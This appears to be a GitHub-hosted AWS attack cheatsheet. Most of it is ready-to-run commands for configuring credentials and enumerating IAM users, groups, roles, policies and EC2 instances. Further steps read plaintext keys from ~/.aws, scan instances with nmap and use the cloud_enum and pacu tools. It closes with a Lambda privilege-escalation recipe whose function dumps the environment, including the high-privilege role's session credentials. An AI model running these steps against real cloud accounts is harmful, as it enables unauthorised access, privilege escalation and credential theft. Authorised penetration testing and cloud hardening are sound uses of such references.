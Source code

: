 ## AWS cheatsheet
- Create long term access with access key ID + secret key (you will be prompted to enter the values after the command runs)
```
aws configure --profile PROFILE_NAME
```
- Get configured identity information
```
aws sts get-caller-identity --profile PROFILE_NAME
```
- Set environment variables and configure identity (access key ID + secret key + session token)
```
set AWS_ACCESS_KEY_ID=KEY
set AWS_SECRET_ACCESS_KEY=SECRET_KEY
set AWS_SESSION_TOKEN=TOKEN
aws configure
```
- Local credentials are stored in `/home/USERNAME/.aws` on Linux and `C:\Users\USERNAME\.aws` on Windows. `cat credentials` under either of the directories to get plaintext credentials.

### User enumeration
- List all IAM users
```
aws iam list-users
```
- List a specific user's IAM groups
```
aws iam list-groups-for-user --user-name USERNAME
```
- List a specific user's attached managed IAM policies
```
aws iam list-attached-user-policies --user-name USERNAME
```
- List a specific user's attached inline IAM policies
```
aws iam list-user-policies --user-name USERNAME
```

### Group enumeration
- List all IAM groups
```
aws iam list-groups
```
- List a specific group's attached managed IAM policies
```
aws iam list-attached-group-policies --group-name GROUPNAME
```
- List a specific group's attached inline IAM policies
```
aws iam list-group-policies --group-name GROUPNAME
```

### Role enumeration
- List all IAM roles
```
aws iam list-roles
```
- List a specific role's attached managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-attached-role-policies --role-name ROLENAME
```

- List a specific role's inline managed IAM policies (useful when a federated user is compromised) 
```
aws iam list-role-policies --role-name ROLENAME
```

### Policy enumeration
- List all IAM policies
```
aws iam list-policies
```
- Get a specific managed policy's information
```
aws iam get-policy --policy-arn POLICYARN
```

- List a specific policy's version information
```
aws iam list-policy-versions --policy-arn POLICYARN
```
- Get the information of a version of a specific policy
```
aws iam get-policy-version --policy-arn POLICYARN --version-id VERSIONID
```
- Get a specific user/group/role's inline policy document (use the last one with federated users)
```
aws iam get-user-policy --user-name USERNAME --policy-name POLICYNAME
aws iam get-group-policy --group-name GROUPNAME --policy-name POLICYNAME
aws iam get-role-policy --role-name ROLENAME --policy-name POLICYNAME
```

### EC2 instance enumeration
- List all EC2 instances for a specific region
```
aws ec2 describe-instances --region REGION
```
- Scan the external IP address of EC2 instances with `nmap`
```
nmap -sS -Pn IP1,IP2,IP3
```
### Enumeration for initial foothold
- Use cloud_enum to enumerate the organization
```
./cloud_enum.py -k ORGNAME
```
- Use `pacu` for advanced enumeration (an other activities) with credentials. Specifically the `iam__privesc_scan` script.

### Privilege escalation via lambda functions
- If the compromised account has access to create lambda functions and `iam:PassRole` privileges then a lambda function with high privileges can be created
- Store the following code in a file and name it `lambda_function.py`
```
import json
import subprocess

def lambda_handler(event, context):
    data = subprocess.Popen('env', stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    output, errors = data.communicate()
    return {
        'statusCode': 200,
        'body': json.dumps(output)
    }
```
- Zip the file in an archive and run the following command
```
aws lambda create-function --function-name privesc-fun --runtime python3.7 --zip-file fileb://my-function.zip --handler lambda_function.lambda_handler --role ROLEARN --region us-east-2 --profile PROFILE
```
